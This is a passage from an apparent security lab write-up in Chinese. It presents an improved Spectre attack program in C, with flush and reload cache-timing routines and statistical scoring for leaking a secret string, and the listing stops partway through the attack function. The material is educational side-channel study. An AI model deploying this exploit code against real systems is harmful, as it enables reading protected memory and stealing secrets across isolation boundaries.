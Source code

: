 ## task5: 改进攻击的准确性

改进思路和meltdown攻击一样，用统计的方法，执行多次，时间最少的肯定是CPU缓存读的  

SpectreAttackImproved.c如下：
```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>


unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
uint8_t temp    = 0;
char    *secret = "Some Secret Value";   
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (150)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  }
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 + DELTA]);
}

static int scores[256];
void reloadSideChannelImproved()
{
int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
    addr = &array[i * 4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD)
      scores[i]++; /* if cache hit, add 1 for this value */
  } 
}

void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
```